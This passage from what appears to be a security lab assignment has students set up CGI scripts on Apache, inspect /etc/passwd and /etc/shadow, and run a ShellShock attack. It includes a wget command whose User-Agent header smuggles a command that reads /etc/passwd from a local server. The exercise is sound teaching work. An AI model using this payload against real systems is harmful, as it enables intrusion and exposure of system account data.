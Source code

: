 ```perl
#!/usr/bin/perl
print "Content-type: text/html\n\n";
print "Hello, world!\n";
```

- Resource: [http://www.lies.com/begperl/hello_cgi.html](http://www.lies.com/begperl/hello_cgi.html)
- Note: You'll likely need to edit the test.cgi permissions so that the server can run that file: `chmod 755 test.cgi`
- If necessary, you can inspect the access/error logs of apache. They are located at `/var/log/apache2/error.log`.

## Create a bash script ##

Now that you can run cgi scripts, make a bash script called `test.bash`

```bash
#!/bin/bash
echo "Content-type: text/plain"
echo
echo
echo "Hello world"
whoami
echo "End of the world"
```

Test it.

**Question 5** What user is the one executing the scripts? (see the output of whoami above). Why does apache use that user?

## /etc/passwd and /etc/shadow ##

Read the man page of shadow (`man shadow`). Inspect the files `/etc/passwd` and `/etc/shadow`

**Question 6** Why does Linux maintain `/etc/shadow`?

**Question 7** What is the difference between `/etc/passwd` and `/etc/shadow`?

# Part 4: ShellShock Attack #

Now we can try the attack.

- Do the following steps outside the virtual machine.

Using `wget` run:

```bash
wget -O /tmp/output.txt -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost:3080/cgi-bin/test.bash
```

Test it. What do you get in `output.txt`?

**Question 8** Given your knowledge of the vulnerability, explain how the attack works.
